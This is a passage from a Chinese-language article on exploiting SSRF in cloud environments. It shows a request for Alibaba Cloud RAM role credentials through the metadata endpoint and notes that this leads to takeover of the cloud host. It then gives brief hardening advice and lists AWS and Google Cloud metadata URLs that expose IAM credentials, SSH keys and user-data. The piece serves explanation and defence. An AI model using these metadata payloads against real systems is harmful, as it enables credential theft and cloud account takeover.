 <http://100.100.100.200/latest/meta-data/ram/security-credentials/huocorp-terraform-goat-role>

![](https://shs3.b.qianxin.com/butian_public/f708244c7821f0d35c1bc372a318c71dd8e0f4178b050.jpg)

拿到凭证意味着可以接管云服务。

![](https://shs3.b.qianxin.com/butian_public/f7135140e147800598238df2c38f53f42408c6bdb364a.jpg)不仅可以接管云主机，对云主机进行配置还可以执行命令，这里不再赘述。

0X04 防御与加固
----------

云上ssrf
------

加固模式：加固模式下，实例基于token鉴权查看实例元数据，相比普通模式对SSRF攻击有更好的防范效果。

普通模式：限制用户RAM角色权限，只赋予自己所需要的权限，这样可以将影响程度降到最低。

0X05 拓展
-------

### 一、常见元数据地址

**1、AWS（** [**http://169.254.169.254/latest/meta-data/**](http://169.254.169.254/latest/meta-data/)**）**

<http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories>

<http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy>

<http://169.254.169.254/latest/user-data>

[http://169.254.169.254/latest/user-data/iam/security-credentials/\[ROLE](http://169.254.169.254/latest/user-data/iam/security-credentials/%5BROLE)  
NAME\]

[http://169.254.169.254/latest/meta-data/iam/security-credentials/\[ROLE](http://169.254.169.254/latest/meta-data/iam/security-credentials/%5BROLE)  
NAME\]

<http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>

[http://169.254.169.254/latest/meta-data/public-keys/\[ID\]/openssh-key](http://169.254.169.254/latest/meta-data/public-keys/%5BID%5D/openssh-key)

**2、Google Cloud（** [**http://metadata/computeMetadata/v1/**](http://metadata/computeMetadata/v1/) \*\*）

<https://cloud.google.com/compute/docs/metadata>

```php
Requires the
  header "Metadata-Flavor: Google" or "X-Google-Metadata-Request:
  True" on API v1
```

<http://169.254.169.254/computeMetadata/v1/>
